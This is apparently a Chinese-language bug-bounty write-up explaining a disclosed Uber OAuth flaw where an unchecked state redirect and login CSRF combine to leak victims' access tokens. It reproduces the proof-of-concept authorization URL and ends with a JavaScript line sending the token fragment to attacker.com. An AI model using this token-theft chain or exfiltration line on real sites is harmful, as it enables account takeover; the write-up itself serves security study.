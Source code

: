 # 漏洞散记
##  重定向窃取token
> 一直想找这么一个漏洞的，因为最近一直在看重定向的利用，就发现，重定向这种漏洞很奇特，他单独没有什么特点，但是如果有结合，就非常的具有威力，这次就是很经典的一个漏洞。Uber的认证重定向。

> 漏洞价值:8000$

> 源漏洞:[report](http://ngailong.com/uber-login-csrf-open-redirect-account-takeover/)

# 挖洞过程
作者回应了一个airbnb的[认证漏洞](https://www.arneswinnen.net/2017/06/authentication-bypass-on-airbnb-via-oauth-tokens-theft/),分享了自己挖掘的Uber的这个OAuth处非常经典的漏洞。

众所周知，一个网站上有很多的链接，是需要登录后才能访问的，因此就存在OAuth认证的操作。就是当你点击一个链接时，会进行登录认证，比如输入帐号密码，当认证结束后，就会携带着token跳转到链接的那个页面,可以看看[简书](http://www.jianshu.com/p/0db71eb445c8)的这个解释。

## Uber的OAuth认证

用原作者的案例来说，点击的页面指向的是**somewhere**这个页面，那么认证流程就如下:

1. https://central.uber.com/login?state=/somewhere
> `state`参数代表着访问的资源，也就说认证成功后要跳转的页面
2. https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2Fsomewhere
> 接着会先跳转到授权页面，也就是https://login.uber.com/oauth/authorize 这个页面，其中`client_id`是应用申请的ID，`redirect_uri`则是授权成功后跳转的页面
3. https://central.uber.com/oauth2-callback?state=%2Fsomewhere&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd
> 授权成功，跳转到`redirect_uri`定义的URL上。并自动添加`code`参数
4. https://central.uber.com/somewhere
> 成功访问到了**somewhere**页面，其中因为`code`参数正确，所以服务器在第三步的响应中是携带了token的

认证流程很经典，准确的说，现在互联网上的OAuth认证全都如此，那么漏洞触发点在哪里呢？

## 第一个漏洞-任意重定向
很多任意重定向的漏洞都是发生在这个地方，就是在第一步时就更改`state`这个参数的值

作者正是如此做的，将**/somewhere**改成了**//google.com**

结果**2**,**3**两个流程的`state`都是**//google.com**,最终**4**跳转的页面也是**//google.com**

这个很容易理解，因为程序本身没有对`state`参数作校验，导致用户可以自定义跳转

但是这种漏洞其实本身的价值很低，没有什么实际用途，只能做做钓鱼，因此正如作者说的，Uber拒绝接收这个漏洞，但还是像我上面说的，这个漏洞如果有其他漏洞配合，那么价值非常大，我个人来说，CSRF和这个重定向是属于神配合，两个月前挖掘饿了么也曾遇到这么个漏洞，认证处的重定向，但是最后在改密码的部分卡住了，可能是因为限制了origin的,导致不成功也没有测试下去

言归正传，去深入挖掘的目标也是CSRF

## 第二个漏洞-CSRF

作者一开始没有想挖的CSRF，因为我觉得他是想偷懒，作者更改了第二步的`response_type`参数，将值从**code**改成了**token**，想着能不能直接返回**token**，结果作者发现因为没有返回可用的`code`，虽然返回了token，但是不进行跳转，这样就算是失败了，因为不能通过到这种方式获取到任何信息。
> https://central.uber.com/oauth2-callback?state=//google.com#access_token=xxxxx/

作者这时候想到的漏洞就是**login csrf**，一种很特殊的CSRF
```
Forging login requests[edit]
An attacker may forge a request to log the victim into a target website using the attacker's credentials; this is known as login CSRF. Login CSRF makes various novel attacks possible; for instance, an attacker can later log into the site with his legitimate credentials and view private information like activity history that has been saved in the account. This attack has been demonstrated against Google and Yahoo.
```

这个CSRF的用处在这儿的意义是什么呢？是提供了一个可用的`code`

## 漏洞的组合

先看看作者的POC：
```
https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3dattacker_valid_oauth_code&state=%2F%2fhackerone.com
```

接着我们看下这样的认证流程吧:

1. https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3dattacker_valid_oauth_code&state=%2F%2fhackerone.com
> 作者更改的部分有`response_type`，将其改成**token**，是为了让后续生成的请求中携带token，还改了什么?改了`redirect_uri`，直接将自己的`code`添加成了跳转的参数

2. https://central.uber.com/oauth2-callback?state=%2F%2fhackerone.com&code={attacker_valid_oauth_code}#access_token={victim_access_token}
> 因为上一步的`redirect_uri`中本身就携带`code`,因此在这一步中，程序本身就直接获取了，重新拼接到了请求中，而且又因为`response_type`是**token**，所以在这个链接中就也拼接了

3. //hackerone.com#accesstoken={victim_access_token}

# 结语

在最后的时候原本有个问题就是怎么去获取的**#**后面的数据，原本想问作者的，但是先问了一波长短短，给了我一个`location.hash.slice(1)`，后来在变一变，就成了`window.location.href="http://attacker.com/?"+location.hash.slice(1)`,成功获取到数据

这个认证重定向窃取Token没什么可说的，个人认为经典中的经典，很值得学习与推敲
